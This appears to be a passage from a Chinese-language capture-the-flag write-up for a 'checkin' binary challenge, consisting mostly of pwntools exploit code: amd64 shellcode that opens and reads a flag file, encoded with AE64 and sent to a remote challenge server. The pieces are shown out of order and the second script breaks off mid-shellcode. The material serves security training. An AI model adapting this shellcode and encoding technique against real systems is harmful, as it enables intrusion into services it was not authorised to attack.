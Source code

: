 ```python
pop rsi
add rsi,r8
push 0x1
pop rdx
push 0x1
pop rax
syscall
add r8,1
jmp loop
syscall
"""
ru("Give me your shellcode:")
#mydbg()
enc_shellcode = asm(shellcode)+AE64().encode(asm(sc),'rax',0,"small")
print(hex(len(enc_shellcode)))
s(enc_shellcode.ljust(0xf0,b"A")+b"flag")
p.interactive()
```

看了出题人 的博客，才知道原来read 是可以循环读的

```python
from pwn import*
from ae64 import AE64
context.arch='amd64'
context.log_level='debug'
p=remote("8.130.35.16",58002)
#p=process(['checkin'])
s = lambda data : p.send(data)
sl = lambda data : p.sendline(data)
sa = lambda text, data : p.sendafter(text, data)
sla = lambda text, data : p.sendlineafter(text, data)
r = lambda : p.recv()
rn = lambda x  : p.recvn(x)
ru = lambda text : p.recvuntil(text)
dbg = lambda text=None  : gdb.attach(p, text)
uu32 = lambda : u32(p.recvuntil(b"\xff")[-4:].ljust(4, b'\x00'))
uu64 = lambda : u64(p.recvuntil(b"\x7f")[-6:].ljust(8, b"\x00"))
lg = lambda s : log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
pr = lambda s : print('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
def mydbg():
	gdb.attach(p,"b *$rebase(0x01764)")
	pause()

#0x20230000
shellcode=""
shellcode+="""
push 0x50505050
pop rax
xor rax,0x7073506c
"""
#sc=shellcraft.read(0,0x20230120,0x100000001)
flag_addr=0x20230000+0xf0+0x30
sc=f"""
push 0
pop rdi
push 3
pop rax
syscall
"""
sc+=shellcraft.open("flag")
sc+=f"""
push rax
pop rdi
```